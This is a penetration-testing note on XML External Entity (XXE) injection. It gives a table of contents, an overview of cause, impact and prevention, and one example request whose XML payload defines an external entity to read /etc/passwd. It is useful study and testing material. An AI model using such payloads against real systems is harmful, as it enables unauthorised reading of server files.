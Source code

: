 ### Content
* [Overview](#overview)
* [Local File Disclosure](#local-file-disclosure)
	* [Read file contains some of XML's special characters](#read-file-contains-some-of-xml's-special-characters)
		* [Read PHP files using PHP wrapper](#read-php-files-using-php-wrapper)
		* [Advanced Exfiltration with CDATA](#advanced-exfiltration-with-cdata) **(for any web application backend using XML Parameters entities)**
* [Remote Code Execution](#remote-code-execution)
	* PHP
* [Blind XXE](#blind-xxe)
	* [Error Based XXE](#error-based-xxe)
	* [Out-of-band Data Exfiltration](#out-of-band-data-exfiltration) **(Fully blind)**
		* Manually
		* Automated
* DOS
---
## Overview
[XML External Entity (XXE) Injection](https://owasp.org/www-community/vulnerabilities/XML_External_Entity_(XXE)_Processing)
- **Cause**: 
	- Occurs when [[XML]] data is taken from a user-controlled input without properly sanitizing or safely parsing it.
- **Exploitation**: 
	- An attacker supplies malicious [[XML]] data containing external entity references.
- **Impact**:
    - File Disclosure
    - SSRF (Server-Side Request Forgery)
    - Denial of Service (DoS)
    - Remote Code Execution (RCE)
- **Prevention**:
    - Disable External Entity Processing: Configure XML parsers to ignore external entities.
    - Use Safer Parsers: Some parsers don’t support external entities by default.
    - Input Validation: Avoid parsing XML from untrusted sources if possible.

Some web applications may default to a JSON format in HTTP request, but may still accept other formats, including XML. So, even if a web app sends requests in a JSON format, we can try changing the `Content-Type` header to `application/xml`, and then convert the JSON data to XML with an [online tool](https://www.convertjson.com/json-to-xml.htm).
> [!CAUTION]
> XML is a case sensitive language `<!ENTITY email SYSTEM` != `<!ENTITY email system`.

---
## Local File Disclosure
* **Request**
``` HTTP
POST /submitDetails.php HTTP/1.1

<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE email [
<!ENTITY email SYSTEM "file:///etc/passwd">
]>
<root>
	<name>a</name>
	<tel>1</tel>
	<email>&email;</email>
	<message>123</message>
</root>
```
* **Response**
``` HTTP
HTTP/1.1 200 OK
```
